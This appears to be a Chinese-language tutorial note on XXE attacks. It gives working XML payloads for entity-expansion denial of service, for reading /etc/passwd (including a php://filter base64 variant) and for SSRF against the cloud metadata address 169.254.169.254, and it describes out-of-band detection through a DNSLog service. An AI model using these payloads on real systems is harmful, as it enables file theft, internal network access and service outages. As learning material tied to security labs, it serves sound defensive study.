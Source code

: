 
# 2. 攻击方式  
---
## 2.1 DOS 拒绝服务攻击  
```xml
<!DOCTYPE data [
<!ELEMENT data (#ANY)>
<!ENTITY a0 "dos" >
<!ENTITY a1 "&a0;&a0;&a0;&a0;&a0;">
<!ENTITY a2 "&a1;&a1;&a1;&a1;&a1;">
]>
<data>&a2;</data>
```
若解析过程非常缓慢，表示攻击成功。目标可能有 DOS 漏洞。具体可以使用更多层的 entity 或者递归，也可使用更加巨大的外部实体。  

## 2.2 文件读取  
[[常见敏感信息路径]]  
利用外部实体来读取系统的敏感文件，也可配合其他协议获取文件内容。
```xml
<?xml version="1.0"?>
<!DOCTYPE data [
<!ELEMENT data (#ANY)>
<!ENTITY file SYSTEM "file:///etc/passwd">
]>
<data>&file;</data>
```

配合 php 伪协议，对内容进行 base 64 编码，可以获取到非法的 xml 字符：
```xml
<!ENTITY file SYSTEM "php://filter/read=convert.base64-encode/resource=/etc/passwd">
```

## 2.3 利用 XXE 进行 SSRF 攻击  
可以诱导服务器端应用程序向服务器可以访问的任何 URL 发出 HTTP 请求。
要利用 XXE 漏洞执行 SSRF 攻击，您需要使用要定位的 URL 定义外部 XML 实体，并在数据值中使用已定义的实体。  
portswigger 的靶场连接：[Lab: Exploiting XXE to perform SSRF attacks | Web Security Academy](https://portswigger.net/web-security/xxe/lab-exploiting-xxe-to-perform-ssrf)  
```xml
<?xml version="1.0"?>
<!DOCTYPE foo [ 
<!ENTITY xxe SYSTEM "http://169.254.169.254/"> 
]>
<stockCheck>
<productId>&xxe;</productId>
<storeId>1</storeId>
</stockCheck>
```

## 2.4 使用外带技术（OAST）检测无回显 XXE  
通常可以使用与 XXE SSRF 攻击相同的技术来检测无回显 XXE，这会触发与目标后端服务器与攻击者系统的带外网络交互。  
例如：构造外部实体：`<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "URL"> ]>`  
此 XXE 攻击会导致服务器向指定的 URL 发出后端 HTTP 请求。攻击者可以监视由此产生的 DNS 查找和 HTTP 请求，从而检测到 XXE 攻击成功。  
此处可以配合使用 [DNSLog Platform](http://www.dnslog.cn/)，将 URL 设置为该网站的 subdomain，并进行刷新。  
